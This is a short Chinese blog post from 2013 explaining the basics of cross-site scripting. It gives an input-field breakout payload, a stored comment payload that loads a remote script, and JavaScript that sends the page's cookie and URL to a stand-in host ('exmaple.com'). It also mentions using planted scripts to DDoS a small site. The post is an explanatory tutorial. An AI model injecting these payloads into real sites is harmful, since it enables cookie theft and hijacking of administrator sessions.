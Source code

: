 ```yaml
---
author: levin
comments: true
date: 2013-08-29 22:10:09+08:00
layout: post
title: "跨站脚本攻击实现原理"
categories:
- web
tags:
- javascript
---
```




跨站脚本攻击`Cross-site scripting`是个比较老的漏洞攻击方法，今天对其了解了下。

它是如何实现的呢，假设有个表单需要提交，其中某个字段形如<!-- more -->

        <input type="text" name="t" value="" />

攻击者在此输入框填写了

        " /><script>alert('xss')</script><input value="

这样的内容提交到服务器，而服务器没有进行过滤处理，将其存入数据库，下次编辑此表单时服务器对此内容输出，raw的html看起来像这样：

        <input type="text" name="t" value="" /><script>alert('xss')</script><input value="" />

然后页面上就会多出1个输入框，并且会弹出确认框。这就是最简单的跨站脚本植入。

假设有个提交评论的输入框，在其上提交评论：

        <script src="http://example.com/xss.js"></script>

提交表单，如果这段代码没有被过滤，当后台管理员查看评论时，照常运行的话，此段代码将开始工作，首先会请求`http://example.com/xss.js`，如果此时`http://example.com/xss.js`返回的内容为：

{% highlight javascript %}
    (function(){
        (new Image()).src = 'http://exmaple.com/xss_recv?location=' + encodeURIComponent(window.location.href) + '&cookie=' + encodeURIComponent(document.cookie) + '&title=' + encodeURIComponent(document.title)
    })()
{% endhighlight %}

那么浏览器将请求`http://exmaple.com/xss_recv`这个链接并附带上被脚本植入页面的一些信息，攻击者获取到这些信息，会尝试登陆那个管理后台，伪造cookie进行访问。

当然，除了窃取信息，也可以在访问量大的页面植入脚本，让脚本指向某个小型网站，可以达到DDoS的效果，使小网站宕机。

